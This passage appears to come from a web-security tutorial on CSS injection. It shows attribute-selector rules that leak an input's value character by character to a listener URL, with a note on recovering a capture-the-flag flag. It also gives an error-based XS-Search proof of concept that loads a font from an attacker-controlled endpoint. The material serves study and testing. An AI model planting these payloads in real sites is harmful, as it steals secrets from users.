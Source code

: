 {% hint style="info" %}
The script will try to discover 2 chars each time (from the begging and from the end) because the attribute selector allows to do things like:

```css
/* value^=  to match the beggining of the value*/
input[value^="0"]{--s0:url(http://localhost:5001/leak?pre=0)}

/* value$=  to match the ending of the value*/
input[value$="f"]{--e0:url(http://localhost:5001/leak?post=f)}
```

This allows the script to leak the secret faster.
{% endhint %}

{% hint style="warning" %}
Sometimes the script **doesn't detect correctly that the prefix + suffix discovered is already the complete flag** and it will continue forwards (in the prefix) and backwards (in the suffix) and at some point it will hang.\
No worries, just check the **output** because **you can see the flag there**.
{% endhint %}

### Error based XS-Search

**Reference:** [CSS based Attack: Abusing unicode-range of @font-face ](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html), [Error-Based XS-Search PoC by @terjanq](https://twitter.com/terjanq/status/1180477124861407234)

Basically the main idea is to **use a custom font from an endpoint controlled by us** in a **text that will be showed only if the resource can not be loaded**.

```html
<!DOCTYPE html>
<html>
<head>
    <style>
    @font-face{
        font-family: poc; 
        src: url(http://ourenpoint.com/?leak); 
        unicode-range:U+0041;
    }

    #poc0{
        font-family: 'poc';
    }

    </style>
</head>
<body>

<object id="poc0" data="http://192.168.0.1/favicon.ico">A</object>
</body>
</html>
```
